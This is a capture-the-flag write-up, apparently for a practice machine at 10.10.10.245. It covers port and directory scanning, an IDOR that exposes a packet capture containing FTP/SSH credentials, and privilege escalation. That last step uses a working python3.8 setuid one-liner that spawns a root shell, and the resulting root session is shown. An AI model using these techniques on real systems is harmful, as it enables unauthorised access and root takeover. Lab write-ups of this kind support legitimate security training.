


## Enumeration
> - Lets use nmap :
```shell
# Nmap 7.97 scan initiated Wed Aug 27 09:32:30 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
> - Now we need to use brute forcing Directory With `Gobuster`:
```shell
❯❯ gobuster dir -u 10.10.10.245 -w /usr/share/Wordlists/dirb/common.txt 
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/Wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17462]
/netstat              (Status: 200) [Size: 33068]
```

## Exploitation

> - i found folder `data` but i have prblm , i searching for PCAP file that contains sensative data .
> - i try change id data to `0` , This Vuln is `IDOR` .



> - After download File PCAP , i can open this file in `Wireshark` Tool :


- Great !! i found a password of `FTP` & `SSH`

## Privilege Escalation

> - Now im runing Tool `linPEAS` , i found a faibless in `/usr/bin/python3.8`
> - So, i put this Malicios Code : `/usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```shell
nathan@cap:~$ /usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls -la
total 36
drwx------  6 root root 4096 Aug 26 22:24 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Aug 26 22:24 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```